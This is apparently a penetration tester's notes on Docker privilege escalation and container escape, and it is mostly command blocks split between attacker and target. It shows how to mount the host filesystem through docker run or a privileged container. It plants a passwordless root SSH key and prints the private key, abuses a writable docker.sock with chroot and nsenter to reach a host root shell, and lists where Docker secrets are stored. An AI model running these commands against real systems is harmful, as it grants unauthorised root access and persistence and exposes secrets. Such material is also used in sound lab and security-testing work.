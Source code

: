 https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock


---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

![[Pasted image 20221115144437.png]]

![[Pasted image 20221115144455.png]]

```bash - kali
docker run -v /root:/mnt -it alpine
```

```bash - kali
docker run -v /etc/:/mnt -it alpine
```

```bash - kali
cd /mnt
```

```bash - kali
ls
```

#### Privileged

When a docker container is running in privileged mode and root access is acquired, escaping the container is then possible. We try to mount the / directory of the host, inside the docker container. But first, we need to execute the following command, in order to get the name of the partition that we are going to mount.

```bash - target
lsblk
```

![[Pasted image 20221115144518.png]]

Let's try to mount the partition sda2 into the directory /mnt .

```bash - target
mount /dev/sda2 /mnt -o loop6
```

```bash - target
ls -l /mnt
```

![[Pasted image 20221115144531.png]]

The / directory is mounted successfully. We create SSH keys for the host user root .

```bash - target
ssh-keygen -f /mnt/root/.ssh/id_rsa -P ""
```

```bash - target
cp /mnt/root/.ssh/id_rsa.pub /mnt/root/.ssh/authorized_keys
```

```bash - target
cat /mnt/root/.ssh/id_rsa
```

We store the key in a file locally and name it id_rsa and give the appropriate permissions.

[[Port 22 - SSH  ~#id_rsa]]

![[Pasted image 20221115144550.png]]

#### /var/run/docker.sock is writable
```bash - kali
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
```

```bash - kali
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

#### Secrets
Try to see Docker secret locations or names:
```
$ docker secret ls
```

Linux Docker Secrets Locations:
```
/run/secrets/<secret_name>
```

Windows Docker Secrets Locations:
```
C:\ProgramData\Docker\internal\secrets
```

```
C:\ProgramData\Docker\secrets
```


---

Notice the hidden .dockerenv file.  Given that and the host name "0873e8062560", we are likely inside of a docker container.

![[Pasted image 20220331134954.png]]

```bash - target
fdisk -l
```

![[Pasted image 20220331135403.png]]

```bash - target
mkdir /mnt/own
```

```bash - target
mount /dev/sda1 /mnt/own
```

```bash - target
cd /mnt/own
```

```bash - target
cd root
```

```bash - target
ls -lah
```



